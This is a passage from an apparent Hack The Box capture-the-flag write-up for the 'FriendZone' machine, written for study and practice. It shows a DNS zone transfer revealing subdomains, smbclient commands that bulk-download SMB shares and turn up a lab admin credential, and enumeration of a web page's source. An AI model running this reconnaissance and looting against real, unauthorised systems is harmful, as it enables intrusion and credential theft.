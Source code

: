 	; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.10.123 friendzone.red
	; (1 server found)
	;; global options: +cmd
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	friendzone.red.         604800  IN      AAAA    ::1
	friendzone.red.         604800  IN      NS      localhost.
	friendzone.red.         604800  IN      A       127.0.0.1
	administrator1.friendzone.red. 604800 IN A      127.0.0.1
	hr.friendzone.red.      604800  IN      A       127.0.0.1
	uploads.friendzone.red. 604800  IN      A       127.0.0.1
	friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
	;; Query time: 35 msec
	;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
	;; WHEN: Sun Sep 11 16:11:47 +08 2022
	;; XFR size: 8 records (messages 1, bytes 289)
	```
	- Subdomains
		- `administrator1.friendzone.red`
		- `hr.friendzone.red`
		- `uploads.friendzone.red.`

# Initial Foothold


## TCP/139, 445 (SMB) - File Exfiltration
1. Download all files from `general` & `Development` SMB fileshare
	```
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot/smb/general]
	└─# smbclient //friendzone.htb/general -c 'prompt;recurse;mget *'
	Password for [WORKGROUP\root]:
	getting file \creds.txt of size 57 as creds.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
	
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot/smb/general]
	└─# cat creds.txt 
	creds for the admin THING:
	
	admin:WORKWORKHhallelujah@#
	
	┌──(root💀kali)-[~/htb/friendzone/10.10.10.123/loot/smb/development]
	└─# smbclient //friendzone.htb/Development -c 'prompt;recurse;mget *'
	Password for [WORKGROUP\root]:
	# No files for Development
	```
	- `admin:WORKWORKHhallelujah@#`


## TCP/443 (HTTP) - Enumerating friendzone.red
1. In the page source of index, saw something interesting
	```
	<!-- Just doing some development here -->
	<!-- /js/js -->
	<!-- Don't go deep ;) -->
	```
2. Proceed to `/js/js`
	![](Pasted%20image%2020220911173351.png)
	- Random `base64` encoded characters is displayed
3. Tried to enumerate some `GET` parameters, nothing interesting is found
4. Based on that, I think it is a rabbit-hole.
